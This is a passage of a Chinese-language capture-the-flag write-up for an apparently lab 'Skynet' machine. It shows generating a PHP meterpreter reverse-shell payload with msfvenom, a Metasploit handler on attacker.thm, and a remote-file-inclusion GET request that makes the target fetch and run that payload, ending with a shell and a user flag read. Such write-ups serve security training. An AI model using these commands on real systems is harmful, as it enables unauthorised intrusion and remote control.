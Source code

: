 图 15

这表明，至少在我的特定情况下，我可以在目标系统上执行 PHP 代码。我将使用`msfvenom`生成一个 PHP 脚本来启动一个反向的 meter preter shell([InfoSec Matter，n.d.-b](https://www.infosecmatter.com/metasploit-module-library/?mm=payload/php/meterpreter/reverse_tcp) ):

```
**┌──(dna㉿deniers)-[~/skynet]
└─$ msfvenom -p php/meterpreter/reverse_tcp LHOST=attacker.thm LPORT=4444 -f raw -o reverse.php**
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1111 bytes
Saved as: reverse.php
```

我需要对 PHP 脚本做一个小的修改来使它执行，即从脚本中删除前两个字符(`/*`)(以粗体突出显示):

```
**/***<?php /**/ error_reporting(0); $ip = 'attacker.thm'; $port = 4444; if (($f = 'stream_ [... snip ...]
```

删除此内容后，我将配置 Metasploit 来接收反向 shell:

```
**┌──(dna㉿deniers)-[~]
└─$ sudo msfconsole      **          
[sudo] password for dna:[... snip ...]**msf6 > use exploit/multi/handler**
[*] Using configured payload generic/shell_reverse_tcp
**msf6 exploit(multi/handler) > set PAYLOAD php/meterpreter/reverse_tcp**
PAYLOAD => php/meterpreter/reverse_tcp
**msf6 exploit(multi/handler) > set LHOST attacker.thm**
LHOST => attacker.thm
**msf6 exploit(multi/handler) > set LPORT 4444**
LPORT => 4444
**msf6 exploit(multi/handler) > exploit**[*] Started reverse TCP handler on attacker.thm:4444
```

现在我需要做的就是向下面的地址发送一个 GET 请求来获得反向 shell:

```
http://skynet.thm/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://attacker.thm:8000/reverse.php
```

Metasploit 得到了相反的 shell:

```
[*] Started reverse TCP handler on attacker.thm:4444 
[*] Sending stage (39860 bytes) to skynet.thm
[*] Meterpreter session 1 opened (attacker.thm:4444 -> skynet.thm:54526 ) at [redacted] -0400**meterpreter >**
```

我发现这是一个 Linux 系统。现在可以转储标志了:

```
**meterpreter > shell**
Process 2003 created.
Channel 1 created.
**$ find / -name *user.txt* -type f -print 2>/dev/null; echo "Done!"**
/home/milesdyson/user.txt
Done!
**$ cat /home/milesdyson/user.txt**
[redacted]
```
